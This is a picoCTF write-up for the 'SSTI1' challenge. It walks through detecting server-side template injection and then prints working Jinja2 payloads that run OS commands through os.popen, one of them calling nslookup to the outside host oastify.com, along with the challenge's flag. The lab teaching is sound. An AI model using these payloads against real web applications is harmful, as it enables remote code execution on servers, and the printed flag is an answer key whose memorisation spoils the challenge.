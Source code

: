 **Challenge:** SSTI1 

**Level:** Easy

**Challenge Author:** Venax

### Description: 

A developer has added profile picture upload functionality to a website. 
However, the implementation is flawed, and it presents an opportunity for you. 
Your mission, should you choose to accept it, is to navigate to the provided 
web page and locate the file upload area. Your ultimate goal is to find the hidden 
flag located in the /root directory.

### Step-by-Step Walkthrough:
As usual, our first hint comes from the title of the challenge. SSTI stands for Server Side Template Injection. So we can expect a vulnerability in the submission form somehow.

## Investigation - vulnerability analyzer
The attacker tests the identified input field by injecting template syntax specific to the template engine in use. Different web frameworks use different template engines (e.g., Jinja2 for Python, Twig for PHP, or FreeMarker for Java).
In most cases, the input `‘${{<%[%'"}}%\.’`, can be utilized to detect a vulnerability. If it errors out, we know we're on the right track

Reviewing this [site](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) we can run through some test injections

Our injection `{{7\*7}}` returns 49, so that seems to work. Then, running `{{7\*'7'}}` returns 7 7s, which is what we'd expect. So we can continue with either Jinja2 or Twig.

The page then directs us to [Template Engines Injection 101](https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756)

The last link I shared allows you to fingerprint everything, making it an extremely valuable tool. Someone probably already put it in a script of some kind, but to understand the process, the page is extremely useful (if a bit difficult to follow since there is an extreme lack of copy capability!)

## Investigation - Jinja2
I can start my search for Jinja2 (just for fun, I tried the Twig script, which broke!), which grabs me the injection template 3.11: 

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('nslookup oastify.com').read()}}
```

On its own, it provides a blank page. I'm not exactly certain why that is, there might be a firewall blocking egress from the server, but the important part of that script is the "nslookup oastify.com". This is where we can input commands. For this next part, use the following, note where I inserted the "ls" command

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

We can see 4 files here, but the important one is titled "flag". Let's input one more command!

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

<details><summary>Flag</summary>
    <pre>
    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
    </pre>
   </details>